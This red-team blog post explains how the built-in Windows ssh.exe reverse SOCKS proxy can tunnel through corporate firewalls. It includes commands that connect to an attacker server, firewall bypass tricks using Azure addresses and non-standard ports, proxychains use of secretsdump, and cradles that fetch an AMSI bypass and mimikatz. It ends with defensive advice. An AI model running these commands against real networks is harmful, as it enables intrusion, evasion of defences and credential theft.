


+++
title = "SSH Tunnelling to Punch Through Corporate Firewalls – Updated Take on One of the Oldest LOLBINs"
date = 2024-08-13
tags = ["adversary-infrastructure", "initial-access", "red-teaming"]
+++


In my formative days of learning network hacking, SSH tunnelling was amongst the first tunnelling techniques that I learnt. I still remember trying to repeatedly decode my notes and diagrams on the rather cumbersome syntax of single port forwarding with the -L and -R flags, which at the time was taught as "the way to do it". If your foothold is (luckily) a Linux server, then you're blessed with the -D flag to spin up a SOCKS proxy on the foothold itself to access the network via proxychains.

Fast forward a few years later, in our day-to-day work, be it network pentest or adversary simulation, I've found my colleagues and I using good ol' SSH tunnelling in real engagements not less, but more.

Quoting what Andy Gill [@ZephrFish](https://github.com/ZephrFish) said in SteelCon 2024 a couple of weeks ago:

> *"F*** C2 frameworks, a tunnel is all you need."*

While I might not feel this as strongly as Andy does, there is more than a pinch of truth in that statement. A good tunnel can often be everything you wanted to execute from the end user laptop. And yet, a Google search "SSH tunnelling in pentesting" and "…in red team engagements", would see most top results still described the "old" way of punching single port-sized holes with -R and -L, or local dynamic SOCKS with -D, which is actually not at all how we used SSH in our engagements. There are a couple of recent blog posts (linked below) published within the recent 1-2 years describing SSH tunnelling using the Reverse dynamic proxy and their unique spins on it, so I'll avoid as much overlap content as I can and present our tips and tricks about SSH tunnelling, with a focus on getting through firewalls.

SSH tunnelling is of course not our primary nor sole way to tunnel out of a client's network ([wink wink](https://labs.jumpsec.com/ligolo-quality-of-life-on-red-team-engagements/)), but whenever I am in a pinch, and nothing else works, this little tool has served me oh-so-well.

Shoutout to recent blog posts describing similar flavors of the SSH tunnelling technique:

- [Living off the land with native SSH and split tunnelling](https://www.pentestpartners.com/security-blog/living-off-the-land-with-native-ssh-and-split-tunnelling/) – by PTP's Joe Blogs in Mar 2024, a concise summary of the fundamental form of this technique
- [SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/) – by Red Siege's Alex Reid in Apr 2024 going over the interesting take on using Lnk files to turn the SSH tunnelling command into a phishing payload
- [The SOCKS we have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home) – by TRUSTEDSEC's Esteban Rodriguez in Oct 2023 detailing creation of a limtedaccess user on the remote server for better Opsec

## Let's cut to the chase

The OpenSSH client is natively available in almost all Windows machines with an OS / Service Pack later than early 2018, more specifically Win10 v1709 and Win Server v1803. (To the Windows sysadmin reading this, you don't have to use Putty anymore!)

Furthermore, the stars were so aligned in 2017 that, right before Microsoft ported OpenSSH to Windows, the OpenSSH project implemented the reverse dynamic proxy feature, a bit obscurely (if you ask me!) reusing the -R flag [in version 7.6](https://www.openssh.com/txt/release-7.6). (This has been explained in the ChangeLog for 7 years but yet not many people are talking about this, which shows that RTFM does, in fact, often pay off.)

In 2024, corporate laptops or workstations are almost universally on either Windows 10 or 11, and that means the ssh command is, on most pentesting or adversarial gigs, sitting in the PATH of the client's machine without needing us to install or enable anything extra.

> *To make this as unambiguous as I can – the **native** ssh command on Windows 10/11 devices has been allowing anyone to start a reverse & dynamic SOCKS proxy into any internal network since 2017! And that makes it possible to run tools like Impacket scripts, Netexec (formerly Crackmapexec) or Certipy natively behind the SOCKS proxy on a remote Linux server, while to the defender the traffic appears to originate from the compromised machine.*

And in 2024, many corporate firewalls still allow SSH outbound from workstations, or are configured in such a way that it is relatively trivial to bypass, and blue teams are often not watching ssh being executed because of how much of a LOLBIN it is.

## 3 Tricks to punch through Corporate firewalls

### 1. Basic form: -R

On the compromised Windows or Nix machine, run SSH with either the binary's name:

```
> ssh -R PROXY_PORT user@attacker_server.com
```

Or use the full path, on for example port 8888

```
> C:\Windows\System32\OpenSSH\ssh.exe -R 8888 user@attacker_server.com
```

*On assumed breach gigs we have a quick trick to check whether outbound SSH is allowed which I will elaborate in the next section.*



Here we assume you have a VPS with a static IP / DNS record pointing to the VPS, on the internet. If you so choose to use password authentication, do set up IP allowlisting on your client's and your own egress IP only to avoid being brute-forced. Then on your VPS / attacking server, set up /etc/proxychains.conf as usual. Specifying the remote server's proxychains.conf to use SOCKS5 would enable the additional compatibility of UDP and thus DNS lookups through the tunnel as well:

```
> socks5 	127.0.0.1 8888
```

Then you could run your commands on the attacking box with proxychains:

```
> proxychains nmap -sT -F internal_target_ip
> proxychains nxc smb internal_target_ip -u USER -p PASSWD --shares
> proxychains secretsdump.py ... and so on
```

On Red Siege's [SSHishing](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/) blog post the author described [not requiring a password OR key](https://superuser.com/questions/1489017/login-to-ssh-with-no-password-and-no-ssh-key) to login plus the -o "StrictHostKeyChecking=no" flag to disable the "Are you sure you want to continue connecting (Yes/No/Fingerprint)" message so that the command could be inside of an Lnk file or a Malicious Office macro, but I still have reservations regarding not requiring authentication to access your C2 server (even if it's a limitaccess user with /bin/false as default shell).

### 2. Azure domain / ASN to get pass firewall

#### Azure Domains

A good indication of the client's firewall having absolutely no blocks on SSH is when an SSH host that they almost certainly have no use for is allowed, such as:

```
> ssh [email protected]
> # if you get a  prompt, you've struck gold!
> # pls don't do anything abusive or malicious to scanme.nmap.org!
```

Of course, it is not always so easy that it works right away, and whilst not in assumed breach you wouldn't have the luxury of a PowerShell session to check the client's firewall. So, what if Scanme is not reachable? The first thing I would try is to use a VPS on Azure. The underlying reason is that Windows environments are highly likely to be on Active Directory and most likely Hybrid. There is a high likelihood that the client's stack requires either Microsoft own IPs to be allowlisted, or Azure subdomains to be blanket trusted.

What I'd do is to spin up a VM from Azure and then give it an azure subdomain from the Public IP address settings: Public IP > Settings > Configuration > DNS name label (optional) -> Enter your desired subdomain name.



```
> ssh.exe -R 8888 [email protected]
```

Something mundane such as msservicesupdate.uksouth.cloudapp.azure.com should be fine. This has been proven to work in many of our engagements.

### ASN to the rescue

Domains tend to have higher success rates on phish emails or C2 callbacks because corporate firewalls tend to block requests to raw non-internal IPs. However, [Azure domain fronting](https://www.microsoft.com/en-us/security/blog/2021/03/26/securing-our-approach-to-domain-fronting-within-azure/) (some practitioners use Azure CDN fronting) is actually known to Microsoft themselves too. Perhaps the blue team / Sysadmin in the client knew this and blocked outbound access to *.region.cloudapp.azure.com for example because they know about this technique and give their own DNS hostnames to their Azure VMs?

In this case even if the subdomain is blocked, you could / should try the raw IP anyway because it is on Microsoft owned ASN. I have had it happen that using the raw IP worked, so it is definitely worth a try when you're desperate. The IP address would be in Microsoft's ASN and there could be an allowlist somewhere that green lights the range.

```
> ssh.exe -R 8888 [email protected](azure_vm_ip)
```

### 3. Alternative Egress Port

Sometimes outbound port 22 to the internet is (fortunately or unfortunately) blocked on the client's endpoint. However there's also a catch that not all corporate firewalls inspect the underlying protocol / do SSL stripping and deep packet inspection (so-called Application Layer Firewalls). It is definitely worth a try to set the ssh port to non-22 on your VPS and restart SSHD. Port 80, 443, 53 tend to be good candidates for this to work. I've sometimes even seen Windows / AD ports outbound to be allowed, stuff I wouldn't expect like NETBIOS(139), KERBEROS(88) , SMB(445), LDAP(389) but sometimes it is needed for certain Azure / Entra interaction. Of course classic service ports like SMTP(25), FTP(21) and so on are also within reason to try, but personally I've had less luck with those.

```
> # edit /etc/ssh/sshd_config with your favorite text editor
> Port
>
> # save and close
> # don't forget to allow inbound on this port from your IP on your cloud provider), then:
>
> sudo systemctl restart sshd
```

## (Bonus) What else could you do with this?

There are a couple of use cases other than just running offensive tooling through an available outbound SSH connection:

- **Getting payloads in and data out:** If you can get SSH out, then either getting payload in or exfiltrate data out via SCP shouldn't be a problem:
  > ```
  > scp.exe [email protected]:/home/user/totally_okay_payload.dll C:\Public\AppData\version.dll
  > ```
- **(More) OpSec safe In memory powershell script execution with IEX:** If you have a good Amsi bypass, ssh is a good way to grab it along with other powershell scripts, especially with how scrutinised Invoke-WebRequest is. The common way observed in the wild to invoke scripts is:
  > ```
  > IEX (New-Object System.Net.WebClient).DownloadString('http://192.X.X.X/invoke-mimikatz.ps1')
  > ```

  In a constrained PS environment the (New-Object) cmdlet would not even work, and secondly this command has been signatured to death so it's probably not a smart thing to do in a covert job. However, you can run one command upon ssh-ing into a host in the format of:

  > ```
  > ssh user@server "command arg arg2 ..."
  > ```

  Essentially you can use this to cradle your AMSI bypass with a malicious script like so (this again can also be bundled into the Lnk file or a malicious macro):

  > ```
  > IEX (ssh user@server "/usr/bin/cat /home/user/amsibypass.ps1"); IEX (ssh user@server "/usr/bin/cat /home/user/invoke-mimikatz.ps1")
  > ```

## How to secure this?

1. 1. **Removing the SSH client:**  It is recommended to remove the builtin SSH client for non-technical staff. It can be done by first removing the SSH client with Settings' > 'Apps' > 'Optional Features' > Search for "OpenSSH" and hit Uninstall then reboot. It however is still in System32. Uninstalling the SSH client from the endpoint is not yet complete after this, as described in the PTP blog post. To further remove the binaries:
      > ```
      > takeown /F C:\Windows\System32\OpenSSH /R /D Y
      > icacls C:\Windows\System32\OpenSSH /grant administrators:F /T
      > rmdir /s C:\Windows\System32\OpenSSH
      > ```
   2. **Secure the corporate firewall settings:** Even if the SSH client is no longer present in the endpoint, the attacker could still move a LOLBin version (signed by Microsoft) onto the user endpoint, or operate from an internal Linux /Mac machine for example. The first order of business is of course blocking outbound TCP connections on port 22 if it is not needed. I'm no firewall expert but for firewalls that support application level operations, SSL stripping with protocol inspection should be performed on ports not meant for SSH (443 and so on) and block connections where the protocols are not matched. There are probably no good recommendations from me for clients who need to allowlist Microsoft ASN IP or Azure subdomains for SSH access unfortunately. If the reader has good ideas on this by all means let me know!
   3. **Monitor for the user endpoints for the SSH binary being called:**  For non-technical staff, the SSH & SCP binaries have little reason to be called at all. A custom alert could be written fire off when SSH.exe or SCP.exe is called (optionally, with filehash matching as well).

In summary, SSH.exe has been bundled with Windows 10, 11 & Windows Server since late 2017 and signed by Microsoft. The reverse dynamic proxy is very powerful and there are a number of tricks that can be used to punch through corporate firewalls to get a reliable tunnel for offensive tooling to compromise entire AD domains. Defenders are recommended to watch for invocation of this binary on endpoints used by non-technical users, or uninstall the feature entirely.


---

*Originally published on [JUMPSEC Labs](https://labs.jumpsec.com/ssh-tunnelling-to-punch-through-corporate-firewalls-updated-take-on-one-of-the-oldest-lolbins/)*
